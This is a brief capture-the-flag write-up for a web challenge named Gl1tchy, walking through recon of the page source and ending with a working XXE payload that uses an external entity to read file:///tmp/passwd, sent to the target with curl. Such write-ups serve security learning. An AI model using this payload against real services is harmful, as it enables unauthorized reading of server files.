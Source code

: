 # Gl1tchy

> web

Author: [whitex](https://github.com/najeh-halawani)

Glitchs are very annoying, we hate them. Maybe the user stays with you 😉

## Writeup

### Recon

Apparently the website has nothing, but when reviewing the source code we see the following comment:

![Website Homepage](https://github.com/najeh-halawani/CyberhackCTF-Writeups/blob/master/Gl1tchy/homepage.png)
![Source Code](https://github.com/najeh-halawani/CyberhackCTF-Writeups/blob/master/Gl1tchy/source-code.png)


# Read Source code... check XML 

# Try to understand the structure of the xml 

```
<creds>
  <user>whitex</user>
</creds>
```
No need for ```<pass> </pass>```

Final payload:

```
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///tmp/passwd" >]>
<creds>
 <user>&xxe;</user>
 <pass>mypass</pass>
</creds>
```

Trigger the payload using curl

```curl -d @xxe http://ip```
